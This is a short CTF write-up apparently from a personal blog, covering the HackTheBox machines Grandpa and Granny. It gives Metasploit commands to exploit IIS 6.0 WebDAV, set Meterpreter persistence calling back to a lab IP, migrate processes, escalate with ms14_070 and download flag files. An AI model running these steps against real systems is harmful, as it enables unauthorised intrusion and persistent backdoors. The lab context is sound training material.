 ```yaml
---
title: "HackTheBox - WriteUp 6"
date: 2019-06-08T10:04:44+08:00
description: "HackTheBox 练手"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Grandpa & Granny

That really sucks. Even I use VPS in New York which result in ping response always in 20ms, it still failed to get connected from victim.

## MSF way

### Warm up

Nmap Scanned: Port 80 opened. IIS httpd 6.0 with Windows Server 2003.

### Normal User

Run these commands in `msfconsole`:

```bash
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.10.10.14
exploit
```

Then use these commands in meterpreter to stablize it:

```bash
run persistence -X -U -A -L %TEMP% -r 10.10.14.6 -p 4455
getuid
> Permission denied
migrate 2212    # davcdata.exe
getuid
> NT AUTHORITY\NETWORK SERVICE
bg
```

In fact, finally, I migrate to `wmiprvse.exe`. And wait for a long time before privilege escalation.

### Administrator / System

> Due to the fucking network on my VPS, this step took me a lot of time. So you must ensure your network stablity is really well.

```bash
use exploit/windows/local/ms14_070_tcpip_ioctl
set SESSION 1
exploit
bg
sessions -i 1
getuid
> NT AUTHORITY\SYSTEM
download "C:\Documents and settings\harry\desktop\user.txt"
download "C:\Documents and settings\administrator\desktop\root.txt"
```
Privilege Escalated. Finished.

## OSCP way

TBD
